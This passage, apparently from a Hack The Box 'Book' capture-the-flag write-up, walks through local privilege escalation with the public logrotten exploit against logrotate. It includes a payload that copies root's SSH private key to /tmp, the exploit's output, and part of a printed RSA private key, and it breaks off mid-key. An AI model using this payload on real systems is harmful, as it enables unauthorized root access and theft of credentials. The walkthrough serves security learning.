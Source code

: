 After searching google extensively, I found [this StackOverflow thread](https://unix.stackexchange.com/questions/115529/solution-to-rotate-log-files) that mentions an utility called logrotate. The binary was installed on the system (by default), so I searched for an exploit and found [this repository on Github](https://github.com/whotwagner/logrotten). I followed the instructions from the README.md file:

{% highlight bash %}

root@fury-battlestation:~/htb/blog/book# git clone https://github.com/whotwagner/logrotten
Cloning into 'logrotten'...
remote: Enumerating objects: 3, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (3/3), done.
remote: Total 87 (delta 0), reused 1 (delta 0), pack-reused 84
Unpacking objects: 100% (87/87), done.
root@fury-battlestation:~/htb/blog/book# scp -i ~/.ssh/book_user ./logrotten/logrotten.c reader@book.htb:/tmp/.yakuhito/
logrotten.c                                                     100% 7342    56.5KB/s   00:00    
root@fury-battlestation:~/htb/blog/book#

{% endhighlight %}

I could have gotten a reverse shell, however, I chose to copy root's SSH key so I would get a more stable shell (the connect-back shell would time out very shortly after a connection was made):

{% highlight bash %}
reader@book:/tmp/.yakuhito$ gcc -o logrotten logrotten.c
reader@book:/tmp/.yakuhito$ echo yakuhito > ./key.txt
reader@book:/tmp/.yakuhito$ echo "if [ \`id -u\` -eq 0 ]; then (cat /root/.ssh/id_rsa >> /tmp/.yakuhito/key.txt &); fi" > payloadfile
reader@book:/tmp/.yakuhito$ ./logrotten -p ./payloadfile ~/backups/access.log
Waiting for rotating /home/reader/backups/access.log...
{% endhighlight %}

In order to rotate the logs, I opened another ssh session and echoed data into the file:

{% highlight bash %}

reader@book:~$ cd backups/
reader@book:~/backups$ echo yakuhito > ./access.log

{% endhighlight %}

After trying a few times, I got root's id_rsa:

{% highlight bash %}

reader@book:/tmp/.yakuhito$ ./logrotten -p ./payloadfile ~/backups/access.log; cat key.txt 
Waiting for rotating /home/reader/backups/access.log...
Renamed /home/reader/backups with /home/reader/backups2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!
yakuhito
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAsxp94IilXDxbAhMRD2PsQQ46mGrvgSPUh26lCETrWcIdNU6J
cFzQxCMM/E8UwLdD0fzUJtDgo4SUuwUmkPc6FXuLrZ+xqJaKoeu7/3WgjNBnRc7E
z6kgpwnf4GOqpvxx1R1W+atbMkkWn6Ne89ogCUarJFVMEszzuC+14Id83wWSc8uV
ZfwOR1y/Xqdu82HwoAMD3QG/gu6jER8V7zsC0ByAyTLT7VujBAP9USfqOeqza2UN
GWUqIckZ2ITbChBuTeahfH2Oni7Z3q2wXzn/0yubA8BpyzVut4Xy6ZgjpH6tlwQG
BEbULdw9d/E0ZFHN4MoNWuKtybx4iVMTBcZcyQIDAQABAoIBAQCgBcxwIEb2qSp7
KQP2J0ZAPfFWmzzQum26b75eLA3HzasBJOGhlhwlElgY2qNlKJkc9nOrFrePAfdN
PeXeYjXwWclL4MIAKjlFQPVg4v0Gs3GCKqMoEymMdUMlHoer2SPv0N4UBuldfXYM
PhCpebtj7lMdDGUC60Ha0C4FpaiJLdbpfxHase/uHvp3S/x1oMyLwMOOSOoRZZ2B
Ap+fnQEvGmp7QwfH+cJT8ggncyN+Gc17NwXrqvWhkIGnf7Bh+stJeE/sKsvG83Bi
E5ugJKIIipGpZ6ubhmZZ/Wndl8Qcf80EbUYs4oIICWCMu2401dvPMXRp7PCQmAJB
5FVQhEadAoGBAOQ2/nTQCOb2DaiFXCsZSr7NTJCSD2d3s1L6cZc95LThXLL6sWJq
mljR6pC7g17HTTfoXXM2JN9+kz5zNms/eVvO1Ot9GPYWj6TmgWnJlWpT075U3CMU
MNEzJtWyrUGbbRvm/2C8pvNSbLhmtdAg3pDsFb884OT8b4arufE7bdWHAoGBAMjo